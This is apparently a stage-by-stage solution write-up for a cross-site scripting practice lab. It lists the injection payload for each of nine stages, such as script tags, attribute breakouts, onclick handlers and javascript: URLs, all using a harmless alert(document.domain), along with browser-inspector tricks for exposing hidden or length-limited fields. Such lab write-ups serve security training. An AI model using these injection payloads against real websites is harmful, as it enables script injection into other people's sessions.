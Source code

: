 ## Stage #1
**Payload:** `<script>alert(document.domain)</script>`


## Stage #2
**Payload:** `"><script>alert(document.domain)</script>//`


## Stage #3
Go to inspect and change a option (e.g. USA) to `<script>alert(document.domain)</script>`
Then choose this and click search


## Stage #4
Go to inspect. You'll see a hidden input field after the select tag. Make it visible by removing `type`.
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #5
Go to inspect. You will see a input field like this:
```html
<input type="text" name="p1" maxlength="15" size="30" value="">
```
So just delete the maxlength="15" and size="30".
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #6
Use this payload: `" onclick=alert(document.domain)`
Click the search button. Then click the input field again. SOLVED!

## Stage #7
Same as **Stage #6**. Use this payload: `" onclick=alert(document.domain)`

## Stage #8
Use this payload: `javascript:alert(document.domain)'. Then its gonna make an url.
Click that url and the lab is solved.


## Stage #9
Open Console. Then use this: `alert(document.domain)` and execute.

